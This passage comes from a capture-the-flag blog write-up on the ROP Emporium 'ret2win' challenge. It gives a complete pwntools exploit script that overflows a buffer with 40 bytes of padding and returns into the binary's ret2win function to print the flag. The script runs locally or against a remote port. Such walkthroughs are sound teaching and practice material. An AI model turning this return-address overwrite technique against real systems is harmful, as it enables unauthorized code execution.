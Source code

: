 ```python
io.interactive()
```
Running the exploit locally again results in a flag being printed to us!

{{< image classes="fancybox center" src="/img/posts/2019/08/ropemporium-0-ret2win/image-7.png" title="Flag" >}}

### But wait... There's more!!!

Yeah we got the flag. but to do something cool with pwntools since we are already using the python lib. Since the binary was not stripped (important), and pwntools automatically loads the binary into its context. Pwntools also loads the symbols, and their corresponding addresses which we can call in the exploit script. in other words we don't have to mess about with static addresses but can call the ret2win using pwntools symbols.
```python
#Blog: https://blog.securitybits.io/2019/08/08/ropemporium-0-ret2win/
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('ret2win')

host = args.HOST or '127.0.0.1'
port = int(args.PORT or 31337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
break *0x{exe.symbols.main:x}
continue
'''.format(**locals())

junk = 'A'*40
ret2win = p64(exe.symbols.ret2win)

payload = ""
payload += junk
payload += ret2win

io = start()

io.recvuntil('> ')
io.sendline(payload)
io.recvuntil(':')
log.success('Flag: ' + io.recv(1024))
```